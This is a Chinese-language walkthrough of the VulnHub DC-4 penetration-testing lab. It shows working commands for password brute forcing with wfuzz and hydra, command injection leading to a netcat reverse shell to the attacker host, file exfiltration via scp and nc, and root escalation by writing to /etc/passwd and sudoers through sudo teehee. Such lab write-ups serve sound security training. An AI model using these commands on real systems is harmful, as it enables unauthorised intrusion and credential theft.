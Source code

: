 # DC4-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-4,313/

**Description**

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-4 is a VirtualBox VM built on Debian 32 bit, so there should be no issues running it on most PCs.

If there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**知识点**
- web 登录爆破 (前期)
- web 命令执行 (中期)
- 反弹 shell (中期)
- SSH 爆破 (后期)
- linux 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.137` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.137
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/2.png)

一个 web ,一个 ssh,先看看 web 有什么信息

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/3.png)

单纯一个登录页面,没有任何其他逻辑功能,比如密码找回、注册

那么接下来有几种手段，直接爆破账号密码，SQL注入，和爆破目录敏感文件等,这里都可以使用 wfuzz 进行完成

直接爆破弱口令试试，注意，这里名称叫做"Admin Information Systems Login" 那么账号名很可能就是 "admin" 或 "systems",密码字典可以直接使用 kali 自带的 `/usr/share/wordlists/rockyou.txt`

```bash
head -10000 /usr/share/wordlists/rockyou.txt > test.txt
wfuzz -v -w test.txt -d "username=admin&password=FUZZ" --hh 206 -u http://192.168.141.137/login.php
```

解释一下，第一句是把 rockyou.txt 前 10000 行单独创建为一个文件 test.txt，源文件太大了足足1000多W行，wfuzz直接无法识别字典。

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/4.png)

可见,跑出了 payload 也就是密码 `happy`

---

# 中期-漏洞利用

直接登录发现存在运行执行代码的功能点

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/5.png)

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/6.png)

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/7.png)

这里可以在 burp 中拦截请求,将 payload 改为我们需要的命令

这里 kali 做好监听
```bash
nc -lvp 4444
```

修改包执行回弹命令
```
nc -nv 192.168.141.134 4444 -e /bin/bash
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/8.png)

此时 kali 以收到弹回的 shell，给他改成方便交互的

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/9.png)

---

# 后期-提权

接下来要想办法提权,查看能够登录的帐号
```bash
cat /etc/passwd | grep "/bin/bash"
```
```
root:x:0:0:root:/root:/bin/bash
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
```

查看目录
```
ls /home/jim
ls /home/sam
ls /home/charles
ls /tmp
```
在 `/home/jim/` 下发现了 `mbox` 文件,但是没权限读,那么想办法登录 jim

在 `/home/jim/backups` 下发现了 `old-passwords.bak` 文件,用 `scp` 命令从靶机传到 kali 上去
```bash
scp /home/jim/backups/old-passwords.bak root@192.168.141.134:/
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/10.png)

当然用 nc 也可以直接传
```
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

看了下 old-passwords.bak 内容,是个密码表,那么直接用它爆破 SSH
```bash
hydra -l jim -P /old-passwords.bak 192.168.141.137 ssh
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/11.png)

登录,并查看 mbox 内容

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/12.png)

看上去像是一份邮件,去 `/var/mail` 看看是否有信息

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/13.png)

发现一份 charles 给 jim 的信,他要去度假，老板让他把密码给 jim,ok 收获 charles 密码 `^xHhA&hvim0y`

登录 charles 用户并尝试提权
```
su charles
sudo -l
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/14.png)

Charles 可以使用 sudo 权限运行 teehee。teehee可以干嘛？可以将标准输入复制到我们选择的文件中。那么我可以直接写一个root权限的用户到 /etc/passwd 下，也可以直接在 sudoers 里给 charles 所有权限

1. 直接写个 root 权限用户
    ```
    echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
    su test
    whoami
    ```

    ![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/15.png)

2. 在 sudoers 里给 charles 所有权限
    ```
    echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
    sudo -l
    sudo su
    ```

    ![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC4/16.png)

提权成功,感谢靶机作者 @DCUA7
